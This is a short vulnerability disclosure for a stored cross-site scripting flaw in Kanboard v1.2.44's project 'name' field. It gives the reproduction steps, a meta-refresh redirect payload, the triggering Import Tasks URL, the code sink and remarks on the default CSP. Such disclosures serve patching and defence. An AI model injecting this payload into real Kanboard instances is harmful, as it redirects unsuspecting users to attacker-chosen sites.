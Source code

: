# Exploit Title: Kanboard v1.2.44 - Cross-Site Scripting (XSS)
## Date: 24/4/2025
## Vendor Homepage: https://github.com/kanboard/kanboard
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Kanboard
## Version: v1.2.44
## Exploit Description:
## Kanboard v1.2.44 suffers from Stored Cross-Site Scripting (XSS) Vulnerability in the 'name' parameter of the 'http://localhost/?controller=ProjectCreationController&action=create' form. This vulnerability allows attackers to inject malicious scripts into web pages viewed by other users. 
## Note: The default CSP blocks the javascript attack, tho it can be exploited if an instance is badly configured and at the moment it's vulnerable to CSS injection because of the unsafe-inline on the default CSP, so I think that would be also good to take a look into that and maybe remove that flag from the default CSP.
## ---------------------------------POC-----------------------------
1. User creates a project A
2. Attacker creates another project B and injects the payload in the 'name' parameter
```
payload: <meta http-equiv="refresh" content="2;url=http://example.com/" />
```
3. Victim views the project A and clicks 'Import Tasks' button
```
http://localhost/?controller=ProjectViewController&action=importTasks&project_id=1
```
4. The payload is executed

code sink:
https://github.com/kanboard/kanboard/blob/v1.2.44/app/Template/project_view/importTasks.php#L11


